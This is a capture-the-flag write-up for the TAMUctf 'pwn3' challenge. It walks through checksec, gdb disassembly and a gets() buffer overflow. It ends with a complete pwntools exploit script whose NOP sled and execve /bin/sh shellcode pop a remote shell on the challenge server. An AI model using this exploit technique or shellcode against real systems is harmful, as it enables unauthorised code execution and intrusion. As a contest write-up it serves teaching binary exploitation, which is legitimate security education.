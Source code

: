 ## pwn3
##### *tl;dr: buffer overflow to control function arguments*
#### Making it a habit that whenever there's a pwn chall, we need to check the security measures first using the *checksec* utility from pwntools:
```
$ checksec pwn3
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
#### As we can see, the output is different from the previous pwn challenges. This binary has no canary and has NX disasbled - meaning we can execute code on the stack. More details [here](http://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/). Basically, no canary means that we can do some kind of a buffer overflow on the stack, since no measures are put in place to determine whether some part of it is overwritten. NX, short-hand for 'non-executable', is disabled meaning segments of the binary are not only writeable, but also executable. We run the binary to have an initial look at what it does:
```
$ ./pwn3
  Take this, you might need it on your journey 0xff92adce!
```
#### From what we see, it prints out that string and waits for user input afterwards. The printed string comes with some kind of an address (which changes everytime the binary is executed) which will be useful later on. We then fire up gdb to look at the inner workings of the challenge. 
```
$ gdb ./pwn3
  gdb-peda$ disas main
   [...]
   0x00000612 <+47>:	add    esp,0x10
   0x00000615 <+50>:	call   0x59d <echo>
   0x0000061a <+55>:	mov    eax,0x0
   0x0000061f <+60>:	lea    esp,[ebp-0x8]
   [...]
```
#### The call to a function called ```echo``` is interesting, let's have a deeper look at it by disassembling the function:
```
gdb-peda$ disas echo
  Dump of assembler code for function echo:
     0x0000059d <+0>:	  push   ebp
     0x0000059e <+1>:	  mov    ebp,esp
     0x000005a0 <+3>:	  push   ebx
     0x000005a1 <+4>:	  sub    esp,0x134
     0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
     0x000005ac <+15>:	add    ebx,0x1a20
     0x000005b2 <+21>:	sub    esp,0x8
     0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
     0x000005bb <+30>:	push   eax
     0x000005bc <+31>:	lea    eax,[ebx-0x191c]
     0x000005c2 <+37>:	push   eax
     0x000005c3 <+38>:	call   0x410 <printf@plt>
     0x000005c8 <+43>:	add    esp,0x10
     0x000005cb <+46>:	sub    esp,0xc
     0x000005ce <+49>:	lea    eax,[ebp-0x12a]
     0x000005d4 <+55>:	push   eax
     0x000005d5 <+56>:	call   0x420 <gets@plt>
     0x000005da <+61>:	add    esp,0x10
     0x000005dd <+64>:	nop
     0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
     0x000005e1 <+68>:	leave  
     0x000005e2 <+69>:	ret    
  End of assembler dump.
```
#### The function loads whatever are in the locations ```[ebp-0x12a]``` and ```[ebx-0x191c]``` into the stack and used as arguments for the printf call. Recalling what we have got so far with the initial start up of the binary, we know that ```[ebx-0x191c]``` in this part stores the address which is printed. Looking below the disassembly, we see a ```gets``` call which stores the input into the buffer at ```[ebp-0x12a]```. The size of the buffer is 0x12a(298) and that is the exact offset at which the stack can be started to be overwritten.
#### Putting together what we already know, we can perform a buffer overflow attack and execute some code in the stack. So our exploit method will be a buffer overflow into executing shellcode. To do that, we need the address of the stack - but that isn't a problem anymore since the address for the stack is already given at the start of the program. So our exploit method will be buffer overflow into changing eip to stack address and placing our shellcode in there for the stack to execute. We create a simple exploit.py script and test it locally to see if it's able to execute our sigtrap:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
p = process('./pwn3')

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack)
sigtrap = '\xCC'
exploit = offset + esp + sigtrap

#: Send data
p.sendline(exploit)
print(p.recv())
```
#### We run the script, but we get an error:
```
[*] Process './pwn3' stopped with exit code -11 (SIGSEGV) (pid 919)
```
#### Let's try to redirect the output of the script into a file and use gdb to analyze what's happening.
```
$ python exploit.py > exploit
$ gdb ./pwn3
    gdb-peda$ r < exploit
        [...]
        0xffffd069:	inc    ecx
        0xffffd06a:	inc    ecx
        0xffffd06b:	inc    ecx
     => 0xffffd06c:	ds iret 
        0xffffd06e:	(bad)  
        0xffffd06f:	dec    esp
        0xffffd071:	int3   
        0xffffd072:	int3
        [...]
```
#### We see here that the program stops even before it reaches our int3 (sigtrap) instructions. This is due to the ```ds iret``` call which switches program execution into user mode. What I did was to look for another address in the stack which can be able to execute our code. I don't remember the exact details of how I did this, but what I do remember is that I found some address on the stack that executes the sigtraps, noted it, subtracted it with the given stack address on the start of the program, and got the exact offset to begin executing code - stack + 311. After we point the eip into that address of the stack, we'd need to perform a short ```nopsled``` (a sequence of NOP (no-operation) instructions meant to "slide" the CPU's instruction execution flow to its final, desired destination whenever the program branches to a memory address anywhere on the slide) in order to call our shellcode. The shellcode I will be using is handcrafted (needed to learn the basics of shellcoding. Great resource [here](https://0x00sec.org/t/linux-shellcoding-part-1-0/289)). We know create our final exploit script to connect with the challenge server, get a shell, and print out our flag:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4323
p = remote(HOST,PORT)

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack + 311)
nopsled = '\x90' * 10
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\x0b\xcd\x80'
exploit = offset + esp + nopsled + shellcode

#: Send data
p.sendline(exploit)
p.sendline('cat flag.txt')
print(p.recv())
```
#### And finally, after 3 days of being stuck at the challenge, we get the flag.
```
$ python exploit.py

Take this, you might need it on your journey 0xffdb4d5e!

gigem{r3m073_fl46_3x3cu710n}
```
